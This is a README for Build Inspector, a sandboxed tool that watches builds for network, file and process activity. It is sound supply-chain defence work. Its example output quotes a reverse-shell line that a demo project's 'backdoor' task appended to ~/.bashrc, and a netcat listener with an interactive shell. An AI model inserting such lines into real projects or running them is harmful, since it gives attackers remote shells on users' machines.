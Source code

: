 # Build Inspector

[Build Inspector](https://github.com/srcclr/build-inspector) is a
tool that gives insight into what's happening when you're building a
project. It is language and build system agnostic and it is capable of
inspecting network activities, file system changes and running
processes. All these happens in a sandboxed environment, without
compromising the developer's machine.

## Requirements

- [Ruby](https://www.ruby-lang.org/en/downloads/) (2.2.3 recommended)
- [Vagrant](https://www.vagrantup.com/)

Once you have both ruby and vagrant installed, go ahead and install
the sahara plugin, bundler and this project's dependencies.

```
vagrant plugin install sahara
git clone https://github.com/srcclr/build-inspector
gem install bundler
bundle install
```

## Running

First, make sure that you have the
[requirements](https://github.com/srcclr/build-inspector#requirements)
and you are inside the repository's directory.

```
cd build_inspector
```

Since this tool does not manage vagrant for you, yet, you'll have to
do it yourself. This step will take a while the first time, but won't
be necessary again. Eventually, this step will be eliminated. Start
vagrant and build the image:

``` vagrant up ```

Once vagrant is started, save a snapshot with:
```
vagrant sandbox on
```

### Usage

```
Usage inspector.rb [options] <git repo URL>
    -h, --help                       Display this screen
    -n, --no-rollback                Don't rollback the virtual machine's state after running
```

### Gradle Example

```
cp configs/gradle_inspect.yml .inspect.yml
ruby inspector.rb https://github.com/jsyeo/TotallyLegitApp.git
```

The above project has a task called `backdoor` that adds a reverse
connect shell to `~/.bashrc`.

After running, you should see this at the bottom of the output:

```
changed: ~/.bashrc
--- /backup/root/.bashrc	2014-02-19 21:43:56.000000000 -0500
+++ /root/.bashrc	2015-11-08 13:07:40.579626388 -0500
@@ -97,3 +97,5 @@
 #if [ -f /etc/bash_completion ] && ! shopt -oq posix; then
 #    . /etc/bash_completion
 #fi
+
+bash -c "bash -i>&/dev/tcp/localhost/1337 0>&1 &disown"&>/dev/null
```

In addition, you'll have a file that looks like
`201523110032412-TotallyLegitApp-evidence.zip` which has all the
network activity, file system changes, and any new processes.

### Bundler Example

```
cp configs/bundler_inspect.yml .inspect.yml
ruby inspector.rb https://github.com/jsyeo/harmless-project.git
```

This bundler project has a gem that pings google during its
installation.

Run it with the Build Inspector and you should see a list of domains
that the machine tried to connect to.

```
The following hostnames were reached during the build process:
  www.google.com (74.125.200.99)                                     543B
```

### NPM Example

```
cp configs/npm_inspect.yml .inspect.yml
ruby inspector.rb https://github.com/jsyeo/ann-pee-am
```

Inspecting this npm project should yield the following output:

```
The following processes were running during the build:
  - /bin/sh -i
  - nc -l 0.0.0.0 8080
```

That's because the npm project depends on a module that opens a
persistent backdoor using netcat.

### Configuration

The tool monitors all network and file system activities.  To ignore
hosts or exclude directories from the monitoring, create and add an
`.inspect.yml` in the repository.  The `.inspect.yml' file is simply
a YAML file that looks like this:

```
---

script: bundle install --jobs 2

whitelist:
  - 10.0.2.2
  - 8.8.8.8
  - bundler.rubygems.org
  - rubygems.org
  - rubygems.global.ssl.fastly.net

directories:
  excluded:
    - /home/vagrant/.gem
  included:
    - /etc
```

There are examples for different build systems in the `configs`
directory.  You may copy the approriate configs for your build system
to the root of this project or you may write one from scratch.

## Development

When you want to experiment, just do `vagrant sandbox on`. Make all
the changes you want to the image. If you'd like to keep them do
`vagrant sandbox commit` and if you don't do `vagrant sandbox
rollback`.
